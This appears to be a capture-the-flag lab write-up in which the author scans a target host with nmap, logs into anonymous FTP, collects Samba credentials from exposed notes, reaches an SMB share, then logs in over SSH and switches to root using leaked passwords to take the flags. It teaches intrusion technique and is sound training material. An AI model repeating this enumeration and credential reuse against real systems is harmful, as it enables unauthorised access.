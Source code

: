 ### Session : Attacking Common Services and Network Exploitation II

![logo](assets/image.png)

First we ran a nmap scan to see the open ports in the machine:
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ nmap -sC -sV 50.116.12.218
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 22:07 +0530
Nmap scan report for 50-116-12-218.ip.linodeusercontent.com (50.116.12.218)
Host is up (0.26s latency).
Not shown: 976 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
21/tcp    open     ftp             vsftpd 3.0.5
|_ftp-bounce: bounce working!
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             105 Jan 03 16:35 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:175.157.18.223
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:c3:b3:6d:3d:78:76:59:23:d1:d1:a7:c5:4c:6c:d4 (RSA)
|   256 a4:4b:16:e4:3e:eb:ac:a3:59:02:27:60:9a:7f:d9:33 (ECDSA)
|_  256 7e:6b:50:88:61:06:df:0f:c3:cc:1a:d6:b4:7f:1f:26 (ED25519)
25/tcp    open     smtp?
|_smtp-commands: Couldn't establish connection on port 25
139/tcp   open     netbios-ssn?
445/tcp   open     netbios-ssn     Samba smbd 4.6.2
```

We were able to see that port 21 is running `vsftpd 3.0.5` and `anonymous` login is enabled and there is a `note.txt` detected by nmap. continuing our reading, we were able to see that port 445 is open and it is running `Samba smbd 4.6.2`.

We first connected to ftp using the command `ftp {machine_ip}` and logged in as the `anonymous` user. Since `anonymous` login is enabled, we can just press `Enter` or type any password we want for the `password` and login.

After logging in, we were able to see a file named `note.txt`. So we downloaded it to our local machine using the `get` command and exited the `ftp` service.

![Image1](assets/image1.png)

We then used the `cat` command to read the contents inside the file and was able to see this note:

```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ cat note.txt 
Why are you keep forgetting your Samba share credentials chami? use the password 'sambaisfun' to login..
```

We were able to see a username called `chami` and a password called `sambaisfun`.

### Samba

We then enumerated the available samba shares for the user `Chami` using the below command and was able to see a share named `LNBTI`.

```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ smbclient -L //50.116.12.218 -U chami
WARNING: no network interfaces found
Password for [WORKGROUP\chami]:

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
LNBTI           Disk      
IPC$            IPC       IPC Service (localhost server (Samba, Ubuntu))

```

We then connected to the smb share `LNBTI` as the user `chami` using the below command:

```
smbclient //50.116.12.218/LNBTI -U chami
```

We were then able to find a `password.txt` file. We used the `get` command again and downloaded the file to our local machine and exited the service.

![Image2](assets/image2.png)

We then again used the `cat` command to see the contents inside the file.

```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ cat password.txt 
Chami, I resetted your account password again to 'ilovechocolates' as you keep forgetting it. Don't lose it again. - Admin
```

We were able to get the password of the user `chami` . so we used ssh to login into chami using the below command :

```
ssh chami@{MACHINE_IP}
```

We were then able to grab the user flag:

```
chami@localhost:~$ cat user_flag.txt 
LNBTI{F1nally_Y0u_f0und_m3}
```

Looking more into the directory using the `ls` command, we were able to find a `mail.txt` and it had the password of the root user. (The root user in linux is like the Administrator user in Windows). 

```
chami@localhost:~$ cat mail.txt 
Chami, you know something? Our admin loves the batman series, i bruteforced his password and was able to find that his password is 'iLoveBatMan00##' . Pretty stupid isn't it? - Destiny
```

We were able to use the `su` command and switched into the `root` user and grab the root flag:

```
chami@localhost:~$ su root
Password: 
root@localhost:/home/chami# cd /root
root@localhost:~# ls
root_flag.txt
root@localhost:~# cat root_flag.txt 
LNBTI{CTF_CLUB_RULES_at_ROOT!}
```

Optional : We can use ssh to login into the `root` user too by using the command :

```
ssh root@{MACHINE_IP}
```
